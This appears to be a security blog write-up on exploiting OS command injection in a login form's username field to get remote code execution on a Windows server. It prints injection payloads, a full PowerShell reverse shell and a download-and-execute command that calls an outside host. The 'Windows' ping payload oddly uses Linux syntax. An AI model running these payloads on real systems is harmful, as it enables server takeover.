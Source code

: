 ```yaml
---
title: "OS Command Injection to Remote Code Execution"
layout: post
date: 2024-12-10 02:0
categories: blog
---
```


Exploiting OS Command Injection for Remote Code Execution.

## Target Background
The target is a web application designed for asset management, allowing users to create and manage assets efficiently.

## Authentication Mechanisms
The application supports multiple authentication methods, including a standard login form, Google SSO, and GitHub SSO.

## Identifying the Attack Vector
The attack vector was identified as the login form. Users authenticate by submitting valid credentials through this form. Detailed reconnaissance revealed that the **username** field in the JSON request object is susceptible to OS Command Injection.

## Attack Surface Analysis
During reconnaissance, it was determined that the application operates on a Windows environment. This insight guided the selection of Windows-specific OS command payloads for vulnerability testing. The application’s response was observed to return boolean values (true or false), prompting the use of out-of-band (OOB) techniques to confirm the existence of the vulnerability.

As the application response was observed to be boolean **true** or **false** the out of band request technique was used to confirm the attack vector.

### Request
```http
POST /username_exists HTTP/1.1
Host: target.com
Cookie: session cookie: hello
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive

{
	"username": "whoami"
}
```

### Response
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 23 Oct 2024 14:55:05 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Cache-Control: no-store
Pragma: no-cache

{
	"success": false
}

```

To validate the attack vector, various OOB techniques such as ping, curl, and wget were employed. Payloads using the ping command revealed variations in response times, confirming the vulnerability.

### Example Payloads
Windows OS Command injection payload used for exploitation.

```text
|ping -c 5 127.0.0.1||
|curl https://thevillagehacker.com/exploit/file.txt||
```

Using the curl technique, a file was successfully downloaded from a remote server, confirming command injection.

## Exploitation
Based on the Windows environment of the application, a PowerShell reverse shell payload was selected for exploitation. This approach enabled a reverse connection to the attacker’s machine.

### PowerShell Reverse Shell Payload
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#### Final Exploitation Payload

```powershell
|powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://thevillagehacker.com/mypowershell.ps1')"||
```

Upon injecting the above payload, a reverse shell connection was established with the application server. Since the application was running with administrative privileges, full control of the server was achieved.

## Conclusion
The exploitation of an OS Command Injection vulnerability in the **username** field of the login form enabled remote code execution on the target system. The successful attack highlights the importance of securing input fields and implementing robust validation mechanisms to prevent such vulnerabilities.

## Reference
- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).